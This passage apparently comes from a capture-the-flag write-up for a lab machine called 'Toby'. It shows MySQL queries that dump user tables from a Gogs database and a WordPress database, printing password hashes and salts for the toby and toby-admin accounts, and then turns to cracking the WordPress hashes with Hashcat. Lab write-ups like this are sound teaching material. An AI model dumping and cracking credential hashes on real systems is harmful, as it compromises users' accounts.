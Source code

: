 ```
| created_unix         | bigint        | YES  |     | NULL    |                |
...[snip]...
| num_members          | int           | YES  |     | NULL    |                |
+----------------------+---------------+------+-----+---------+----------------+
32 rows in set (0.093 sec)

```

I’ll dump the interesting bits:

```

MySQL [gogs]> select id,name,passwd,salt from user;                                                                                     
+----+------------+------------------------------------------------------------------------------------------------------+------------+ 
| id | name       | passwd                                                                                               | salt       | 
+----+------------+------------------------------------------------------------------------------------------------------+------------+ 
|  2 | toby-admin | 8a611020ad6c56ffd791bf334d32d32748baae42975259607ce268c274a42958ad581686151fe1bb0b736370c82fa6afebcf | PlCxfl4BrQ | 
+----+------------+------------------------------------------------------------------------------------------------------+------------+ 
1 row in set (0.091 sec)  

```

Only one user, toby-admin.

I’ll take a similar path in the WP database to find two more users with hashes:

```

MySQL [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+---------------------+---------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email          | user_url            | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+---------------------+---------------------+---------------------+---------------------+-------------+--------------+
|  1 | toby       | $P$Bc.z9Qg7LCeVxEK8MxETkfVi7FdXSb0 | toby          | toby@toby.htb       | http://192.168.0.43 | 2021-07-08 12:00:13 |                     |           0 | toby         |
|  2 | toby-admin | $P$B3xHYCYdc8rgZ6Uyg5kzgmeeLlEMUL0 | toby-admin    | toby-admin@toby.htb | http://.            | 2021-08-28 18:17:33 |                     |           0 | . .          |
+----+------------+------------------------------------+---------------+---------------------+---------------------+---------------------+---------------------+-------------+--------------+
2 rows in set (0.090 sec)

```

### Hashcat

I’ll use Hashcat to break the WordPress hashes. They look like WordPress Md5 from the [example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) list. toby-admin’s breaks pretty quickly:
